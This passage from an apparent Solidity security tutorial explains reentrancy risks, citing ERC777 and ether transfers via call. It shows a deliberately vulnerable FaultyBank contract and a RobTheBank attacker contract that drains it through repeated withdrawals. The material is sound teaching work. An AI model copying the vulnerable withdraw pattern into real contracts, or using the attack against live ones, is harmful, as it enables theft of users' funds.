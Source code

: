 ERC777 reentrancy has happened in the real world and can be quite catastrophic. [Here](https://blog.openzeppelin.com/exploiting-uniswap-from-reentrancy-to-actual-profit/) is an example.

When designing an application that interacts with arbitrary ERC20 tokens, **don’t assume `transfer` and `transferFrom` are non-reentrant**.

## Sending Ether

When you send ether via `address.call(””)`, you hand over control to the other contract.

Consider the following classic example

```solidity
contract FaultyBank {

    mapping(address => uint256) public balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        msg.sender.call{value: balances[msg.sender]}("");
        balances[msg.sender] = 0;
    }
}
```

It can be attacked in this manner

```solidity
contract RobTheBank {

    IFaultyBank private bank;

    constructor(IFaultyBank _bank) {
        bank = _bank;
    }

    function attack() payable {
        bank.deposit{value: 1 ether}()
        bank.withdraw();
    }

    fallback() external payable {
        if (address(bank).balance >= 1 ether) {
            bank.withdraw(); // reenterancy attack here
        }
    }
}
```

Because `balances[msg.sender]` is set to zero after sending the balance, then the attacker can keep withdrawing 1 ether (stealing from other users), until the balance is below 1 ether.
